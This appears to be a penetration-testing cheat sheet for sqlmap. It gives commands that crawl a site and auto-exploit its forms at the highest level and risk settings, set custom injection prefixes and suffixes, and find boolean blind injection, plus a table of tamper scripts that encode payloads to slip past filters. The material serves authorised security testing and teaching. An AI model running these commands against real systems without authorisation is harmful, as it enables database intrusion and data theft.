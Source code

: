 ## Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

# Customizing Injection

## Set a suffix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

## Prefix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```

## Help finding boolean injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```

## Tamper

```bash
--tamper=name_of_the_tamper
#In kali you can see all the tampers in /usr/share/sqlmap/tamper
```

| Tamper                       | Description                                                                                                                        |
| :--------------------------- | :--------------------------------------------------------------------------------------------------------------------------------- |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                           |
| between.py                   | Replaces greater than operator \('&gt;'\) with 'NOT BETWEEN 0 AND \#'                                                              |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py          | Double url-encodes all characters in a given payload \(not processing already encoded\)                                            |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                       |
| commalessmid.py              | Replaces instances like 'MID\(A, B, C\)' with 'MID\(A FROM B FOR C\)'                                                              |
| concat2concatws.py           | Replaces instances like 'CONCAT\(A, B\)' with 'CONCAT_WS\(MID\(CHAR\(0\), 0, 0\), A, B\)'                                          |
| charencode.py                | Url-encodes all characters in a given payload \(not processing already encoded\)                                                   |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload \(not processing already encoded\). "%u0022"                         |